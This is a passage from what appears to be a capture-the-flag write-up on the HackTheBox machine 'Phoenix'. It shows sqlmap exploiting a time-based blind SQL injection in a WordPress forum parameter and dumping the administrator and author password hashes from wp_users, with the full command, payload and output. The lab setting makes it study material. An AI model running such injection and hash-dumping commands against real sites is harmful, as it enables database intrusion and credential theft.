```

```

It takes about three minutes to find that, but `sqlmap` has the injection point now.

#### Dump Phoenix / John Smith Hash

I started trying to enumerate the DB, but it’s just too slow. Because the DB is supporting WordPress, the tables and columns are well documented. I could also install WordPress onto a local VM and look at it more closely.

For example, [this page](https://usersinsights.com/wordpress-user-database-tables/) shows the columns in the `wp_users` table, which includes the `user_pass`. Because I know that Phoenix (user id 1) is the administrator, and John Smith (user id 5) is an author on the site, I’ll dump just their hashes using the syntax from above plus:
- `-D wordpress` - Select the WordPress database
- `-T wp_users` - Select the `wp_users` tables
- `-C id,user_pass` - Select the `id` and `user_pass` columns
- `--where "ID=1 or ID=5"` - Limit to only the two users who may be admins
- `--dump` - Dump the data

This runs for about eight minutes, but does produce the two hashes:

```

oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_users -C id,user_pass --where "ID=1 or ID=5" --dump
...[snip]...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 8939 END)
---
[22:04:57] [INFO] testing MySQL
[22:04:57] [INFO] confirming MySQL
[22:04:57] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[22:04:57] [INFO] fetching entries of column(s) '`id`, user_pass' for table 'wp_users' in database 'wordpress'
[22:04:57] [INFO] [INFO] fetching number of column(s) '`id`, user_pass' entries for table 'wp_users' in database 'wordpress'
...[snip]...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: wordpress
Table: wp_users
Database: wordpress
Table: wp_users
[2 entries]
+------+------------------------------------+
| id   | user_pass                          |
+------+------------------------------------+
| 1    | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc. |
| 5    | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G. |
+------+------------------------------------+

[22:13:19] [INFO] table 'wordpress.wp_users' dumped to CSV file '/home/oxdf/.sqlmap/output/phoenix.htb/dump/wordpress/wp_users.csv'

```
